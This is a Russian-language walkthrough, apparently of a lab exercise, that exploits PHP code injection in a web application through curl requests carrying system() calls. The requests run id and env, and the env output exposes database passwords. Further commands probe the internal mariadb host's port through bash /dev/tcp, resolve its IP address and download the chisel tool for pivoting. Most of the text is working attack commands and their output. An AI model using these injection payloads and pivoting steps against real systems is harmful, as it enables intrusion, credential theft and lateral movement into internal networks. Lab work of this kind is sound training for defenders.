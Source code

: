 Проверим от имени какого пользователя запущено web-приложение, для этого
выполним команду `id`:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=1000(web) gid=1000(web) groups=1000(web)
  <br>
```

Теперь получим список переменных окружения:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('env');"
  <h1> Hello world!</h1>
  ...
  MARIADB_DATABASE=production
  MARIADB_HOSTNAME=mariadb
  MARIADB_ROOT_PASSWORD=strongpassword
  MARIADB_PASSWORD=verystrongpassword
  MARIADB_USER=prod
  ...
  <br>
```

Как видим из листинга, в переменных окружения имеется конфигурация соединения
с БД сервером. Да же есть hostname этого сервера `MARIADB_HOSTNAME`. Предположительно
запущенного то же в докере на том же хосте. Проверим имеется ли сетевой доступ 
до этого хоста:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('timeout 1 bash -c \'cat < /dev/null > /dev/tcp/mariadb/3306\' && echo Open || echo Closed');"
  <h1> Hello world!</h1>
  Open
  <br>
```

Что бы не мучиться с пробросом DNS, определим IP адрес сервера mariadb:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('getent hosts mariadb');"
  <h1> Hello world!</h1>
  172.18.0.2      mariadb
  <br>
```

Как мы видим у web-приложения есть сетевая связанность с сервером БД, что 
логично. Так в docker-контейнере нет приложения для работы с сервером БД, а
запрограммировать приложение на PHP для того что бы сделать dump базы данных
мне лень. Воспользуемся техникой `pivoting` для получения доступа к БД. 
Воспользуемся приложением [chisel](https://github.com/jpillora/chisel):
```
vagrant@hacker:~$ curl -L https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz --output chisel.gz
vagrant@hacker:~$ gzip -d chisel.gz
vagrant@hacker:~$ chmod +x chisel
```
